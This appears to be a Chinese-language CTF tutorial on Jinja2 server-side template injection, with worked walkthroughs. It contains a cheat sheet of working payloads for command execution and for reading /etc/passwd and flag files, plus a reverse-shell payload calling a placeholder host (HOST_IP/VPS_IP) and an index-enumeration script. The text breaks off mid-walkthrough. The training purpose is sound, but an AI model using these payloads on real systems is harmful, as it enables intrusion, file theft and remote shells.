






# 模板注入初步

> [ProbiusOfficial/Hello-CTF](https://github.com/ProbiusOfficial/Hello-CTF)

## 前置知识

在开始之前，我们先大概介绍一下什么是模板，什么又是模板注入。

### 什么是模板

**模板** 是一种用于生成动态内容的工具。  

它们通常包含两个基本部分：静态内容和动态占位符。

比如下图为 Hello-CTFtime 项目中，渲染比赛列表的时候用到的模板：

**绿色** 部分为 **静态内容** ，而 **橙色** 部分则是 **动态占位符** 


对于大多数模板，他们的工作流程我们可以这样概括：

**定义模板  ->  传递数据  -> 渲染模板  -> 输出生成**


### 什么是模板注入

我们之前在说SQL注入的时候，这样描述SQL注入 “**通过可控输入点达到非预期执行数据库语句**”，比如后台预期的语句是：

```sql
SELECT username,password FROM users WHERE id = "数据传递点"
```

在预期情况下，数据传递点只会是 1，2，3，4......

但是我们要是让数据传入点的值为 `1" union select 1,group_concat(schema_name) from information_schema.schemata -- `

后台执行的语句就变成了：
```sql
SELECT username,password FROM users WHERE id = "1" union select 1,group_concat(schema_name) from information_schema.schemata --"
```

这时候不仅会查询 `id=1`的数据，还会把所有数据库的名字一同查询出来。

同样的 **「模板注入 SSTI(Server-Side Template Injection)」** 也一样，**数据传递**就是可控的输入点，以 **Jinja2** 举例，Jinja2 在渲染的时候会把`{{}}`包裹的内容当做变量解析替换，所以当我们传入 `{{表达式}}` 时，表达式就会被渲染器执行。

比如下面的示例代码：

```python
from flask import Flask
from flask import request
from flask import render_template_string
 
app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    template = '''
    <p>Hello %s </p>''' % (request.args.get('name'))
    return render_template_string(template)
 
if __name__ == '__main__':

    app.run()
```

当我们传入 {{9*9}} 时他会帮我们运算后输出 81



## Python模板注入一般流程

> 注意模板注入是一种方式，它不归属于任何语言，不过目前遇见的大多数题目还是以python的SSTI为主，所以我们用 Python SSTI 为例子带各位熟悉模板注入。

一般我们会在疑似的地方尝试插入简单的模板表达式，如 `{{7*7}}` `{{config}}`，看看是否能在页面上显示预期结果，以此确定是否有注入点。

当然本来还需要识别模板的，但大多数题目都是 Jinja2 就算，是其他模板，多也以Python为主，所以不会差太多，所以我们这里统一用 Jinja 来讲。

### 引

很多时候，你在阅读SSTI相关的WP时，你会发现最后的payload都差不多长下面的样子：

```
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}
......
```

是不是觉得每次看 WP 都会觉得很懵逼，这些方法为什么要这么拼，是怎么构造出来的？前面这一串长长的都是什么？

这里有几个知识点:

- **对象** : 在 Python 中 **一切皆为对象** ，当你创建一个列表 `[]`、一个字符串 `""` 或一个字典 `{}` 时，你实际上是在创建不同类型的对象。
- **继承** : 我们知道对象是类的实例，类是对象的模板。在我们创建一个对象的时候，其实就是创建了一个类的实例，而在python中所有的类都继承于一个基类，我们可以通过一些方法，从创建的对象反向查找它的类，以及对应类父类。这样我们就能从任意一个对象回到类的端点，也就是基类，再从端点任意的向下查找。
- **魔术方法**  : 我们如何去实现在继承中我们提到的过程呢？这就需要在上面Payload中类似 `__class__`的魔术方法了，通过拼接不同作用的魔术方法来操控类，我们就能实现文件的读取或者命令的执行了。

我们大可以把我们在SSTI做的事情抽象成下面的代码：

```python
class O: pass # O 是基类，A、B、F、G 都直接或间接继承于它
# 继承关系 A -> B -> O
class B(O): pass
class A(B): pass

# F 类继承自 O，拥有读取文件的方法
class F(O): def read_file(self, file_name): pass

# G 类继承自 O，拥有执行系统命令的方法
class G(O): def exec(self, command): pass
```

比如我们现在就只拿到了 A，但我们想读取目录下面的 flag ，于是就有了下面的尝试：

**找对象A的类 - 类A** -> **找类A的父亲 - 类B** -> **找祖先/基类 - 类O**  -> **遍历祖先下面所有的子类** -> **找到可利用的类 类F 类G**->  **构造利用方法**->  **读写文件/执行命令**

```python
>>>print(A.__class__) # 使用 __class__ 查看类属性
<class '__main__.A'>
>>> print(A.__class__.__base__) # 使用 __base__ 查看父类
<class '__main__.B'>
>>> print(A.__class__.__base__.__base__)# 查看父类的父类 (如果继承链足够长，就需要多个base)
<class '__main__.O'>
>>>print(A.__class__.__mro__) # 直接使用 __mro__ 查看类继承关系顺序
(<class '__main__.A'>, <class '__main__.B'>, <class '__main__.O'>, <class 'object'>)
>>>print(A.__class__.__base__.__base__.__subclasses__()) # 查看祖先下面所有的子类（这里假定祖先为O）
[<class '__main__.B'>, <class '__main__.F'>, <class '__main__.G'>]
```

类似这种 **拿基类 -> 找子类 -> 构造命令执行或者文件读取负载 -> 拿flag** 是python模板注入的正常流程。

接下来我们详细的介绍每个步骤。

### 拿基类

在Python中，所有类最终都继承自一个特殊的基类，名为 `object`。这是所有类的“**祖先**”，拿到它即可获取Python中所有的子类。

一般我们以 字符串 / 元组 / 字典 / 列表 这种最基础的对象开始向上查找：

```python title="类属性"
>>> ''.__class__
<class 'str'>
>>> ().__class__
<class 'tuple'>
>>> {}.__class__
<class 'dict'>
>>> [].__class__
<class 'list'>

>>> ''.__class__.__base__
<class 'object'>
>>> ().__class__.__base__
<class 'object'>
>>> {}.__class__.__base__
<class 'object'>
>>> [].__class__.__base__
<class 'object'>
```

不管对象的背后逻辑多么复杂，他最后一定会指向基类：

```python
# 比如以一个request的模块为例，我们使用__mro__可以查看他的继承过程，可以看到最终都是由 object 基类 衍生而来。
>>> request.__class__.__mro__
 (<class 'flask.wrappers.Request'>, <class 'werkzeug.wrappers.request.Request'>, <class 'werkzeug.sansio.request.Request'>, <class 'flask.wrappers.JSONMixin'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'object'>)
```

在寻找时，通常我们使用下面的魔术方法：

```
# 更多魔术方法可以在 SSTI 备忘录部分查看
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              查看继承关系和调用顺序，返回元组。此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
```

那么  `__base__` `__bases__` `__mro__` 三者有什么区别？我们以一个继承很长的request模块为例，为了拿到它的基类，三者之间的语法：

```python title="万物皆对象"
>>> request.__class__
<class 'flask.wrappers.Request'>

>>> request.__class__.__mro__
 (<class 'flask.wrappers.Request'>, <class 'werkzeug.wrappers.request.Request'>, <class 'werkzeug.sansio.request.Request'>, <class 'flask.wrappers.JSONMixin'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'object'>) # 返回为元组
>>> request.__class__.__mro__[-1]
<class 'object'>

>>> request.__class__.__bases__
(<class 'werkzeug.wrappers.request.Request'>, <class 'flask.wrappers.JSONMixin'>) # 返回为元组
>>> request.__class__.__bases__[0].__bases__[0].__bases__[0]
<class 'object'>

>>> request.__class__.__base__
<class 'werkzeug.wrappers.request.Request'>
>>> request.__class__.__base__.__base__.__base__
<class 'object'>

```

当然除了从 字符串 / 元组 / 字典 / 列表 以及刚才提到的 request 模块 (注意模块在使用前是需要导入的)外，还有其他方法可以获取基类，你可以自行探索，也可以参考我们下面的 Jinja SSTI 备忘录。

### 寻找子类

当我们拿到基类，也就是 `<class 'object'>` 时，便可以直接使用`subclasses()`获取基类的所有子类了。

```Python
>>> ().__class__.__base__.__subclasses__()
>>> ().__class__.__bases__[0]__subclasses__()
>>> ().__class__.__mro__[-1].__subclasses__()
```

我们无非要做的就是读文件或者拿shell，所以我们需要去寻找和这两个相关的子类，但基类一下子获取的全部子类数量极其惊人，一个一个去找实在是过于睿智，但其实这部分的重心不在子类本身上，而是在子类是否有os或者file的相关模块可以被调用上。



比如我们以存在 `eval` 函数的类为例子，我们不需要认识类名，我们只需要知道，这个类通过 `.__init__.__globals__.__builtins__['eval']('')` 的方式可以调用 `eval` 的模块就好了。

那么到这你可能会问，`.__init__.__globals__.__builtins__` 又是什么东西？

```
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取函数所处空间下可使用的module、方法以及所有变量。
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身.
```

其实在面向对象的角度解释这样做很容易，对象是需要初始化的，而 `__init__`的作用就是把我们选取的对象初始化，然后如何去使用对象中的方法呢？这就需要用到`__globals__` 来获取对全局变量或模块的引用。

那么如何去实现这个过程？这里其实有几种种方法，纯手动寻找，使用外部的python脚本 或者 直接使用模板语法构造通用的payload。

我们还是以 `eval` 函数为例子：

> 注意本次教程的所有实验基于 NSSCTF 题目 [ssti-flask-labs](https://www.nssctf.cn/problem/13) ，您可以直接在NSSCTF平台上开启靶机，也可以在GitHub本地部署源码：[X3NNY/sstilabs](https://github.com/X3NNY/sstilabs)

先演示一次手工过程：

**拿基类：**

`{{().__class__.__base__}}`



**拿子类:**

`{{().__class__.__base__.__subclasses__()}}`


这里我们使用 `<class 'warnings.catch_warnings'>`



定位到 194

 `{{().__class__.__base__.__subclasses__()[194]}}`


初始化对象，获取函数方法合集，并确定存在内建 `eval` 函数：

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__}}`


但由于 `eval` 在全局域中是一个 `built-in function` 即 **内置函数** ，所以我们无法直接通过 `__globals__['eval']` 来直接调用内置函数，Python的内置函数和对象通常是全局可用的，但它们通常不是函数内部的一部分。因此，要在函数内部访问内置函数（如`eval`）或内置对象（如`os`），需要通过`__builtins__`来访问。

`{{().__class__.__base__.__subclasses__()[194].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls /").read()')}}`



手工虽然方便调试，但是极其麻烦，而且上述的payload并不是通用的，目标机器环境不一样，序号也会改变，所以自动化是一个很必要的步骤。

根据上面的手工过程，我们可以选择用Python脚本实现自动化查找，也可以使用模板语法的方式直接构建自动化的通用 payload：

```python
# 使用 python 脚本 用于寻找序号
url = "http://url/level/1"
def find_eval(url):
    for i in range(500):
        data = {
            'code': "{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}",
        }
        res = requests.post(url, data=data, headers=headers)
        if 'eval' in res.text:
            print(data)
find_eval(url)
```

当然你也可以直接在python中完成识别后直接构建payload提交，比如下面的模板语法就完美实现了这一点：

```python
 # 模板语法 _ 命令执行_eval

    
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    

```

模板语法我们下一节会细讲，现在让我们把目光移回到子类上面。

还有其他的一些子类也能达到 eval 的效果，见下图：


### 命令执行

在构造命令执行的 payload 的时候，要注意一些函数的回显和返回值。

```python
# eval 
x[NUM].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') 

# os.py
x[NUM].__init__.__globals__['os'].popen('ls /').read()

# popen
x[NUM].__init__.__globals__['popen']('ls /').read()

# _frozen_importlib.BuiltinImporter
x[NUM]["load_module"]("os")["popen"]("ls /").read()

# linecache
x[NUM].__init__.__globals__['linecache']['os'].popen('ls /').read()

# subprocess.Popen
x[NUM]('ls /',shell=True,stdout=-1).communicate()[0].strip()
```

### 文件读取

由于Python2中的 File 类在 Python3 中被去掉了，所以目前也就 **FileLoader ( _frozen_importlib_external.FileLoader)** 算真正意义上原生的文件读取

```python
[].__class__.__bases__[0].__subclasses__()[NUM]["get_data"](0,"/etc/passwd")
```

其他文件读取的方法无非还是在命令执行的基础上去导入文件操作的包 ( 为了方便，我们使用 X 代表基类 )

```python
- codecs模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('codecs').open('/app/flag').read()") 

- pathlib模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('pathlib').Path('/app/flag').read_text()") 

- io模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('io').open('/app/flag').read()")

- open函数
x[NUM].__init__.__globals__['__builtins__'].eval("open('/app/flag').read()")
```

### 探索

你可以看到，现成的很多 payload 都是前人总结出来的，但凡是都有个开始，比如——如何从一个基类开始，去寻找一个可用的 payload 呢？

这里我们在拿到基类后，选取一个拥有初始化和全局的对象：



我们可以看到，返回中的“`'__builtins__'`”有  **对象** (  `'xxx': <class 'xxx'>` ) ，也有 **内建函数** ( `<built-in function xxx>` )，再往后则有 **模块** (比如 `'_os': <module 'os' from '/usr/local/lib/python3.9/os.py'>`)：

当然这里的模块其实已经可以直接用了：`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['_os'].popen('ls /').read()}}`


不过到这就结束了未免太没意思，其实内建函数也有很多可用的方法，下面我们取出 `'__builtins__'` 的内容：

`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['__builtins__']}}`


我们可以看到很多内建的函数：


接下来就是找和文件或者命令有关的函数，不用担心，内建函数在Python官方拥有成熟的文档，你可以随时查阅：[内置函数](https://docs.python.org/zh-cn/3/library/functions.html)

```
eval()
exec()
open()
__import__()
```


### 模板语法示例

`{{ variable_name }}`：显示一个变量的值。例如 `{{ config }}` 可以显示配置文件的值。

` ... `：条件语句，用于基于特定条件显示不同的内容。

` ... `：循环语句，用于遍历序列（如列表或字典）并对每个元素执行操作。

`{{ variable_name|filter_name }}`：对变量应用过滤器。

```python
## 序号查找

 
    
        {{ ns.counter}}
    
    


## 类名格式化输出

    
        {{ x.__name__ }} <br>
    

```

## Python模板注入绕过技巧


## Jinja SSTI 备忘录

#### 基类

```python
# bases 会返回元组形式 
>>> __bases__[0] == __base__
#因为 mro 会显示继承顺序，而所有类最终都继承自一个特殊的基类 object，所以 __mro__[-1] 总是能拿到基类
>>> __base__*N == __mro__[-1] 

[].__class__.__base__
''.__class__.__base__
().__class__.__base__
{}.__class__.__base__

request.__class__.__mro__[-1] # 需要导入过 request 模块
dict.__class__.__mro__[-1]
config.__class__.__base__.__base__
config.__class__.__base__.__base__
```


#### 通用 payload ( Python3 )

```python
# 命令执行_eval
 
    
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    


# 命令执行_os.py

    
        {{ x.__init__.__globals__['os'].popen('ls /').read() }}
    


# 命令执行_popen

    
        {{ x.__init__.__globals__['popen']('ls /').read() }}
    


# 命令执行__frozen_importlib.BuiltinImporter

    
        {{ x["load_module"]("os")["popen"]("ls /").read() }}
    


# 命令执行_linecache

    
        {{ x.__init__.__globals__['linecache']['os'].popen('ls /').read() }}
    



# 命令执行_exec(无回显故反弹shell)

    
        {{ x.__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HOST_IP",Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}
    


{{().__class__.__bases__[0].__subclasses__()[216].__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("VPS_IP",端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}

# 命令执行_catch_warnings 
{{ x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}

# catch_warnings 读取文件
{{ x.__init__.__globals__['__builtins__'].open('/app/flag', 'r').read() }}

# _frozen_importlib_external.FileLoader 读取文件
  # 
    
        {{ x["get_data"](0,"/etc/passwd")}}
    


# 其他RCE
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{joiner.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{namespace.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.current_app.add_url_rule('/1333337',view_func=url_for.__globals__.__builtins__['__import__']('os').popen('ls').read)}}

```

#### 识别引擎


#### 魔术方法

#### 过滤器


```
https://www.raingray.com/archives/4183.html
https://xz.aliyun.com/t/11090#toc-6
https://xz.aliyun.com/t/9584#toc-6
https://zhuanlan.zhihu.com/p/618277583
https://blog.csdn.net/2301_77485708/article/details/132467976
https://cloud.tencent.com/developer/article/2287431
https://blog.csdn.net/Manuffer/article/details/120739989
https://tttang.com/hc-archive1698/#toc__5
https://jinja.palletsprojects.com/en/latest/templates/
https://docs.python.org/zh-cn/3/library/functions.html
```

## 实战

<!-- Imported from D:\\Book\\Web\\Chapter11\11-1.md -->
### SSTI 添加路由


打开网页给出了源代码


首先肯定是格式化一下

```python
import os
import jinja2
import functools
import uvicorn
from fastapi import FastAPI
from fastapi.templating import Jinja2Templates
from anyio import fail_after
 
# jinja2==3.1.2
# uvicorn==0.30.5
# fastapi==0.112.0

# 这是一个装饰器，用于给被装饰的函数添加超时功能
# 它使用 anyio.fail_after 来在函数执行超过指定超时时间（默认 1 秒）时抛出异常
def timeout_after(timeout: int = 1):
    def decorator(func):
        @functools.wraps(func)
        async def wrapper(*args, **kwargs):
            with fail_after(timeout):
                return await func(*args, **kwargs)
        return wrapper
    return decorator

# 创建了 FastAPI 应用实例
app = FastAPI()
access = False

# 保存当前文件的目录，用于后续加载 Jinja2 模板
_base_path = os.path.dirname(os.path.abspath(__file__))

# t 初始化了 Jinja2Templates，用于从指定目录加载 Jinja2 模板
t = Jinja2Templates(directory=_base_path)

# 该路由会返回当前 Python 文件的内容（以文本形式）当通过 GET 请求访问 / 时
@app.get("/")
@timeout_after(1)
async def index():
    return open(__file__, 'r').read()

# 路由通过 GET 请求访问 /calc，并期望一个查询参数 calc_req
@app.get("/calc")
@timeout_after(1)
async def ssti(calc_req: str):
    global access
    if (any(char.isdigit() for char in calc_req)) or ("%" in calc_req) or not calc_req.isascii() or access:
        return "bad char"
    else:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(f"{{{{ {calc_req} }}}}").render(
            {"app": app})
        access = True
        return result  # 返回计算结果
    return "fight"
 
if __name__ == "__main__":
    uvicorn.run(app, host="127.0.0.1", port=8000)
```

第一个 "/" 路由没什么好说的

/calc 首先是检查 calc_req 是否包含数字、百分号、非 ASCII 字符，或者 access 是否已经被设置为 True

如果安全检查通过，这行代码将使用 Jinja2 模板引擎渲染 calc_req 参数

```
jinja2.Environment(loader=jinja2.BaseLoader())：创建一个新的Jinja2环境

from_string()：将 calc_req 作为模板字符串进行渲染

四个 { } 用于转义大括号使其不被解释为模板变量
```

构造 Payload 首先是 GET 请求：

```python
/calc?calc_req=config.__init__.__globals__['__builtins__']['exec']()

# config 对象包含了模板环境的配置
# __init__ 是一个包含模板环境全局变量的属性
# __globals__ 字典包含了全局变量
# 攻击者通过访问 __builtins__ 字典中的 exec 函数用于执行字符串形式的 Python 代码
```

```python
'app.add_api_route("/flag",lambda:__import__("os").popen("cat /flag").read());'

# app.add_api_route("/flag", lambda: ...) 添加一个新的路由 /flag
# 也可以使用 ['__builtins__'].eval()
# 也可以 modules['__main__'],'__file__','/flag' 直接修改模板目录
```

访问 /flag 拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter11\11-10.md -->
### config 对象模板注入攻击


打开网页提示让我们已注释方式提交 search


测试发现存在模板注入


注入 `config` 没被过滤


过滤了 `globals`


采用字符拼接绕过，通过 `__globals__` 可以访问到 `os` 模块

```python
# os.popen() 是 os 模块中的一个方法，用于执行系统命令并返回一个文件对象
# read() 是文件对象的方法，用于读取命令执行的结果
?search={{config.__init__['__global'+'s__'].os.popen("whoami").read()}}
```


修改命令疑似找到 flag


成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter11\11-11.md -->
### attr 过滤器模板注入攻击


我发现 Python 的属性访问（点符号 ( `.`)、下标语法 ( `[]`)、`getattr` 等等）和下划线都被列入了黑名单

通过分析 Jinja2 的过滤器，发现可以使用 `attr` 过滤器来访问对象属性，而无需使用 `.`

Python 字符串可以通过字节表示来绕过字符过滤，例如使用 `\x5f` 代替 `_`

使用 `attr()` 调用构建了一个链

```jinja2
{{config|attr('__class__')}}
```

`{{config|attr('__class__')}}` 会输出 config 对象的类型，即 flask.config.Config 类

**1️⃣ `config`**

`config` 是 **Flask 应用的配置对象**

它通常存储：

- `SECRET_KEY`
- 数据库连接字符串
- 调试模式开关
- 其他应用配置

**2️⃣ `|attr('__class__')`**

Jinja2 的 `attr` 过滤器允许访问对象的属性，相当于 Python 里的 `getattr(obj, attr_name)`

```jinja2
config|attr('__class__') == getattr(config, "__class__")
```

十六进制编码

```jinja2
{{config|attr('\x5f\x5fclass\x5f\x5f')}}
```

拿到 OS 模块

```jinja2
